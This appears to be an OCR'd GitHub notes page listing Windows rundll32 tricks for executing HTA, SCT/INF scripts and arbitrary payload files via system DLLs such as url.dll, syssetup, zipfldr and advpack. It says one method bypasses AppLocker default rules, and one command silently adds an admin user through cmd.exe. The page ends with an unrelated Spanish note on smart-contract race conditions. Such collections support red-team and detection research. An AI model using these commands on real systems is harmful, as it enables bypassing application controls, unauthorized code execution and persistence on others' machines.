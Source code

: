 # Rundll32 commands for Windows
https://www.jesusninoc.com/2017/04/12/rundll32-commands-for-windows/

# Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

InSide INFScript By @subTee Regsvr32 in INFScript

```MS-DOS
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```

Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415

Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

Leveraging INF-SCT Fetch & Execute Techniques For Bypass, Evasion, & Persistence
https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/

# rundll32
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```

You looking out for that "RegisterOCX" function in IEAdvpack.dll?  

```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```
# Seguridad de contratos inteligentes basados en Blockchain II – Vulnerabilidades y riesgos
https://www.securityartwork.es/2018/03/20/seguridad-de-contratos-inteligentes-basados-en-blockchain-ii-vulnerabilidades-y-riesgos/

- Condiciones de carrera: cuando la salida o estado de un proceso es dependiente de una secuencia de eventos que se ejecutan en orden arbitrario y van a trabajar sobre un mismo recurso compartido, se puede producir un bug cuando dichos eventos no «llegan» (se ejecutan) en el orden que el programador esperaba
